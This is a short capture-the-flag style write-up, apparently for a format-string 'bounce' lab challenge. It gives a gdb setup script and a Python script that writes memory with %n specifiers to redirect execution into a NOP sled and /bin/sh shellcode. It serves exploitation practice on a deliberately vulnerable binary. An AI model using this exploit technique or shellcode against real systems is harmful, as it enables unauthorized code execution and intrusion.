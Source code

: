 
i used this script for .gdbinit
```
unset env LINES
unset env COLUMNS
unset env TERM
unset env _
unset env OLDPWD
unset env SHLVL

set disassembly-flavor intel
disassemble bounce

b *0x080484f1
run < /tmp/payload2
x/20gwx $ebp+0x8
```

The logic stays same just instead of writing congratulation's address we need push buffer's address[ebp+0x8] on the stack.

deliberatly choosing this 0xffffcd80 as first four address space are for AAAABBBBCCCCDDDD  (0xffffcd70)

![alt image](/assets/phoenix-format/bounce.png)

```
import struct
ADDR = 0x080497e4
addresses = struct.pack("I", ADDR)
addresses += struct.pack("I", ADDR+1)
addresses += struct.pack("I", ADDR+2)
addresses += struct.pack("I", ADDR+3)

target = 0xffffcd80

shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"


buf = addresses
#buf += "\xCC"
buf += "\x90" * 43
buf += shellcode
buf += "%x" * 11
buf += " "
buf += "%n"
buf += " " * 70
buf += "%n"
buf += " " * 50
buf += "%n"
buf += " " * 256
buf += "%n"

print buf
```
